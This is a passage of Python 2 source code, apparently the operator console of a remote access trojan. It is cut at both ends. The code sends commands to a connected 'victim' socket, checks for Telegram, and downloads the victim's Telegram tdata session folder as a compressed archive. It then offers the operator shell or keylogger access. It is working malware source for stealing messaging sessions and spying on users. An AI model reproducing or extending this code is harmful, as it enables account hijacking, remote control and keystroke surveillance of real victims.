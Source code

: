                            licen_download_tdata=''
                            csf=False
                            while True:
                                try:
                                    select_user=raw_input(Fore.CYAN+'SELECT> ')
                                except:
                                   pass
                                if select_user=='99':
                                    try:
                                        victim.send('break')
                                    except socket.error:
                                        csf=False
                                        print (Back.BLUE+"\nSession Closed\n")
                                    break
                                elif check_integer(select_user)==True:
                                    if int(select_user)==0 or int(select_user)<=id_user:
                                        try:
                                            victim.send(user_list[int(select_user)])
                                        except:
                                            print (Back.BLUE+"\nSession Closed\n")
                                            break
                                        else:
                                            licen_download_tdata=victim.recv(3)
                                            if licen_download_tdata=='yes':
                                                break
                                            else:
                                                print ('\n'+user_list[int(select_user)]+' Has Not Telegram\n')
                                    else:
                                        print ("\nInvalid ID\n")
                                else:
                                    print ("\nInvalid ID\n")
                            rd=None
                            if licen_download_tdata=='yes':
                                print (Fore.MAGENTA+'\nStart Download (TDATA) Folder\n'+Fore.GREEN+'=============================')
                                print ('')
                                random_name='tdata_'+str(random()).replace('0.','')+'.tar.bz2'
                                popen('mkdir downloads').read()
                                f=open('./downloads/'+random_name,'wb')
                                
                                rd=download_tdata(victim,f)
                                if rd==False:
                                    print (Back.RED+"\nBreak Download (TDATA) Folder\n")
                                else:
                                    print (Fore.CYAN+'Save -> downloads/'+random_name)
                                print (Fore.GREEN+'\n=============================\n')
                                f.close()
                            print
                            if csf==False and rd==None:
                                while True:
                                    try:
                                        qks=raw_input('You Can Access Shell Or Keylogger?[y/n]')
                                    except:
                                        pass
                                    if qks in ['YES','yes','Yes','y','Y']:
                                        session_status=shell_or_keylogger(victim)
                                        if session_status==True:
                                            pass
                                        else:
                                            break
                                    elif qks in ['N','n','No','NO','no']:
                                        break
                                    else:
                                        print ("\nInvalid : Enter y OR n\n")                                        
    elif cmd=='1':